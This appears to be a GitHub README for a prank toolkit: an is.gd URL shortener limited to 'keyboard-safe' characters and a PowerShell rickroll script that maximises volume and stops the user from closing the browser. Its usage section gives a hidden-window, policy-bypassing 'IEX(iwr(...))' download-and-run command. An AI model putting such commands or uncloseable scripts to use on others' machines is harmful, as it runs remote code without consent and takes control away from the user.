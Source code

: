 **Disclaimer**
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.


## Tools

#### Urlshortener
Shortens an url with only "safe" characters for the domain [is.gd](https://is.gd)

<details>
<summary>Details</summary>

file: [urlshortener.py](urlshortener.py) \
Characters considered "safe" for keyboards are:
```
    t uiop
asdfghjkl
 xcvbnm
```
[![img.png](assets/keyboard_layouts.png)](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such)
(from [quora](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such))

### requirements
```shell
pip install --upgrade aiohttp
```

### usage
```shell
python urlshortener.py 
# https://is.gd/tuion
```
or
```python
import asyncio
from urlshortener import create_short

async def main():
    url = "https://kaliiiiiiiiii.github.io/rickroll"
    _range = range(5, 10) # range to find urls for
    shorturl = await create_short(url, _range)
    print(shorturl)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

#### Rickroll (powershell)
- opens MS Edge on url
- sets audio volume to max
- user can't close it
- exits after `n` seconds

<details>
<summary>Details</summary>

file: [rickroll.ps1](rickroll.ps1)
### usage
```
powershell -w h -ep ByPass "IEX(iwr(''))"
```
or
```shell
powershell ./rickroll.ps1
```

</details>